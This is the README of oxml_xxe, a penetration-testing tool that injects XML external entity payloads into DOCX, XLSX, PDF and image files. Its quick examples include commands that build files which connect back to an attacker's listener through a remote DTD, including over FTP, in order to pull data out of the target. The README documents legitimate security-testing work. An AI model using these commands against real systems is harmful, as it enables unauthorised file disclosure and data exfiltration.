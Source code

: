 # oxml_xxe
This tool is meant to help test XXE vulnerabilities in ~~OXML document~~ file formats. Currently supported:

- DOCX/XLSX/PPTX
- ODT
- PDF
- JPG
- GIF (experimental)

BH USA 2015 Presentation:

[Exploiting XXE in File Upload Functionality](http://oxmlxxe.github.io/reveal.js/slides.html#/) [(Recorded Webcast)](https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html)

Blog Posts on the topic:

[Exploiting XXE Vulnerabilities in OXML Documents - Part 1](http://www.silentrobots.com/blog/2015/03/04/oxml_xxe/)

# Installation

Installation is easy, you will need a copy of Ruby and two gems.

```
gem install highline
gem install zipruby
```

or


```
gem install bundler
bundle install
```

# Quick Examples

## Build a PDF with XXE in XMP (metadata)
```
ruby oxml_xxe.rb --poc pdf -i 192.168.14.1:8000
```

## Build a DOCX with XXE (connecting back to 192.168.14.1:8000)
```
ruby oxml_xxe.rb -s -i 192.168.14.1:8000

Select payload 11 ("remote_DTD")
```

## Build a XLSX with XXE (connecting back to ftp://192.168.14.1:8000)
```
ruby oxml_xxe.rb -f samples/sample.xlsx -s -i ftp://192.168.14.1:8000

Select payload 11 ("remote_DTD")
```


# Main Modes

There are two main modes:

## Build Mode ("-b")

Build mode adds a DOCTYPE and inserts the XML Entity into the file of the users choice.

## String Replacement Mode ("-s")

String replacement mode goes through and looks for the symbol § in the document. The XML Entity ("&xxe;") replaces any instances of this symbol. Note, you can open the document in and insert § anywhere to have it replaced. The common use case would be a web application which reads in a xlsx and then prints the results to the screen. Exploiting the XXE it would be possible to have the contents printed to the screen.

